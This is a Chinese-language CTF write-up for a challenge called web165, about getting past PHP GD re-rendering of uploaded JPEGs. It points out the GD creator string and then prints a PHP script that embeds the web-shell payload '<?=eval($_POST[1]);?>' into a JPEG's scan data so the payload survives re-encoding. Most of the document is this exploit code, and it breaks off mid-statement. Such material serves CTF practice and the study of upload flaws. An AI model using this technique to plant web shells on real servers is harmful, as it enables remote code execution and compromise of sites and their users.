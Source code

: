 ## web165

### 考点：jpg二次渲染

这题只能上传jpg图片

把上传的图片下载下来，发现图片里多了一句话

![image-20231207124057882](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231207124057882.png)

经php GD库渲染后的图片一般有如下特征字符串：

```
CREATOR: gd-jpeg v1.0 (using IJG JPEG v80), quality = 80
```

参考：[一些CTF 做题的tricks](https://www.codenong.com/cs107071361/)

绕过脚本：

```php
<?php
$miniPayload = '<?=eval($_POST[1]);?>';
if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
    die('php-gd is not installed');
}
if(!isset($argv[1])) {
    die('php jpg_payload.php <jpg_name.jpg>');
}
set_error_handler("custom_error_handler");
for($pad = 0; $pad < 1024; $pad++) {
    $nullbytePayloadSize = $pad;
    $dis = new DataInputStream($argv[1]);
    $outStream = file_get_contents($argv[1]);
    $extraBytes = 0;
    $correctImage = TRUE;
    if($dis->readShort() != 0xFFD8) {
        die('Incorrect SOI marker');
    }
    while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
        $marker = $dis->readByte();
        $size = $dis->readShort() - 2;
        $dis->skip($size);
        if($marker === 0xDA) {
            $startPos = $dis->seek();
            $outStreamTmp =
                substr($outStream, 0, $startPos) .
                $miniPayload .
                str_repeat("\0",$nullbytePayloadSize) .
                substr($outStream, $startPos);
            checkImage('_'.$argv[1], $outStreamTmp, TRUE);
            if($extraBytes !== 0) {
                while((!$dis->eof())) {
                    if($dis->readByte() === 0xFF) {
                        if($dis->readByte !== 0x00) {
                            break;
                        }
                    }
                }
                $stopPos = $dis->seek() - 2;
                $imageStreamSize = $stopPos - $startPos;
                $outStream =
                    substr($outStream, 0, $startPos) .
                    $miniPayload .
                    substr(
                        str_repeat("\0",$nullbytePayloadSize).
```